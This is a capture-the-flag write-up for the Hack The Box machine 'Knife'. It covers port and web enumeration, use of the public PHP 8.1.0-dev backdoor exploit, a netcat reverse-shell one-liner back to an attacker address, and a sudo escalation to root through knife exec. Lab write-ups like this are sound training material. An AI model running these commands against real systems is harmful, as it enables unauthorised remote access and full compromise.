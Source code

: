 <b>

# Information Gathering
I started by pinging the box 4 times to ensure stable connection<br>
`ping -c 4 10.10.10.242`
```
PING 10.10.10.242 (10.10.10.242) 56(84) bytes of data.
64 bytes from 10.10.10.242: icmp_seq=1 ttl=63 time=108 ms
64 bytes from 10.10.10.242: icmp_seq=2 ttl=63 time=109 ms
64 bytes from 10.10.10.242: icmp_seq=3 ttl=63 time=110 ms
64 bytes from 10.10.10.242: icmp_seq=4 ttl=63 time=109 ms
```
After that i ran `nmap` with `-Pn` to skip testing if the target is alive and `-sVC` for version and additional information<br>
`nmap -sVC -Pn 10.10.10.242`
```
Nmap scan report for 10.10.10.242
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I also ran `whatweb` with `-a 3` for aggressive (comprehensive) information gathering about the website<br>
`whatweb -a 3 10.10.10.242`
```
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```
The website didn't appear to have any links or directories so i try dirbusting with `feroxbuster` but no use either<br>
`feroxbuster -r -k -E -g -C 400,403,404 --auto-tune -u http://10.10.10.242/`
```
200      GET      220l      526w     5815c http://10.10.10.242/
[####################] - 68s    30002/30002   0s      found:1       errors:0      
[####################] - 67s    30000/30000   447/s   http://10.10.10.242/ 
```
I try `dirsearch` just to be sure but no luck either<br>
`dirsearch -F --crawl -u http://10.10.10.242/`
```
[12:10:02] 403 -  277B  - /.ht_wsr.txt                                      
[12:10:02] 403 -  277B  - /.htaccess.bak1                                   
[12:10:02] 403 -  277B  - /.htaccess.orig                                   
[12:10:02] 403 -  277B  - /.htaccess.sample                                 
[12:10:02] 403 -  277B  - /.htaccess.save
[12:10:02] 403 -  277B  - /.htaccess_extra                                  
[12:10:02] 403 -  277B  - /.htaccess_orig
[12:10:02] 403 -  277B  - /.htaccessBAK
[12:10:02] 403 -  277B  - /.htaccessOLD
[12:10:02] 403 -  277B  - /.htaccessOLD2
[12:10:02] 403 -  277B  - /.htaccess_sc
[12:10:02] 403 -  277B  - /.htm                                             
[12:10:02] 403 -  277B  - /.html
[12:10:02] 403 -  277B  - /.htpasswd_test                                   
[12:10:02] 403 -  277B  - /.htpasswds                                       
[12:10:02] 403 -  277B  - /.httr-oauth                                      
[12:10:44] 403 -  277B  - /server-status                                    
[12:10:44] 403 -  277B  - /server-status/ 
```
# Vulnerability Assessment
The server was running `Apache 2.4.41` and using `PHP 8.1.0-dev`
Looking up `php 8.1.0 exploit` leads to this:<br>
https://www.exploit-db.com/exploits/49933

The cause of the exploit was an early realease which contained a backdoor<br>
The backdoor was removed but any server that still runs this version allows an attacker to execute arbitrary code by sending the `User-Agentt` header
# Exploitation
Running the exploit, it asked for full URL: `http://10.10.10.242/`<br>
After that it spawned a `pseudo shell`
# Post-Exploitation
The job control is turned off so i couldn't spawn interactive shell no matter what i tried
- `/bin/sh -i`
- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `perl —e 'exec "/bin/sh";'`

In that case, i opened `netcat` listner on port 4444 and executed reverse shell on the `pseudo shell`<br>
`nc -lvnp 4444` (listener)<br>
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f` (reverse shell)<br>

Having reverse shell from `nc`, i upgraded to `interactive shell`<br>
`python3 -c 'import pty; pty.spawn("/bin/sh")'`

There was only 1 directory inside `/home` called `james` (which is who we are - `whoami`)<br>
The user flag can be found inside `/home/james/user.txt`<br>
After that i started checking common things but the exploits for them didn't work
- `sudo --version` (sudo version)
- `uname -a` (system information)

Running `sudo -l` to see what i can run as sudo led to this
```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Looking up `usr/bin/knife exploit` gave me this:<br>
https://gtfobins.github.io/gtfobins/knife/

Running the `sudo knife exec -E 'exec "/bin/sh"'` allowed me to become root<br>
The flag was located at `/root/root.txt`
</b>
